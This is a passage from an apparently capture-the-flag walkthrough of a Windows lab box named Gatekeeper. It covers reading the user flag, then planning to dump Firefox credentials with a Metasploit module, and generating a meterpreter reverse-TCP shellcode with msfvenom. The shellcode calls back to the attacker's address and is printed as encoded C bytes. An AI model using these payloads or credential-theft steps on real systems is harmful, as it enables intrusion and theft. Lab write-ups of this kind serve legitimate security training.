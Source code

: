 On Desktop we can find user flag:
```
C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{H4lf_W4y_Th3r3}
```

> Locate and find the User Flag. `{H4lf_W4y_Th3r3}`

***

## <strong><font color="#34A5DA">Privilege Escalation — Firefox Creds</font></strong>

While searching for files on user's desktop we can find Firefox.lnk — which is a shortcut for Firefox. 

```
C:\Users\natbat\Desktop>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,845,920,768 bytes free
```

Searching on metasploit for `Firefox` we can find `post/multi/gather/firefox_creds` — to . Let's use it. Let's try to dump the creds and crack them. However, first we need to create a session in metasploit.

Recreate the payload:
```
vladislav@Mac Desktop % msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.7.222 LPORT=4444 -b "\x00\x0a" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of c file: 1632 bytes
unsigned char buf[] = 
"\xb8\xba\x6e\xd7\xa7\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9"
"\xb1\x59\x31\x43\x14\x03\x43\x14\x83\xc3\x04\x58\x9b\x2b"
"\x4f\x13\x64\xd4\x90\x4b\xec\x31\xa1\x59\x8a\x32\x90\x6d"
"\xd8\x17\x19\x06\x8c\x83\x2e\xaf\x7b\x8a\xbb\xbd\x53\xe3"
"\x44\x70\x64\xaf\x87\x13\x18\xb2\xdb\xf3\x21\x7d\x2e\xf2"
"\x66\xcb\x44\x1b\x3a\x9b\x2d\xb1\xab\xa8\x70\x09\xcd\x7e"
"\xff\x31\xb5\xfb\xc0\xc5\x09\x05\x11\xae\xda\x1d\xc1\x3b"
"\x82\x3d\xe0\xe8\xb6\xf7\x96\x32\x88\xf8\x1e\xc1\xde\x8d"
"\xa0\x03\x2f\x52\x63\x64\x5d\xfe\x65\xbd\x66\x1e\x10\xb5"
"\x94\xa3\x23\x0e\xe6\x7f\xa1\x90\x40\x0b\x11\x74\x70\xd8"
"\xc4\xff\x7e\x95\x83\xa7\x62\x28\x47\xdc\x9f\xa1\x66\x32"
"\x16\xf1\x4c\x96\x72\xa1\xed\x8f\xde\x04\x11\xcf\x87\xf9"
"\xb7\x84\x2a\xef\xc8\x65\xb5\x10\x95\xf1\x79\xdd\x26\x01"
"\x16\x56\x54\x33\xb9\xcc\xf2\x7f\x32\xcb\x05\xf6\x54\xec"
```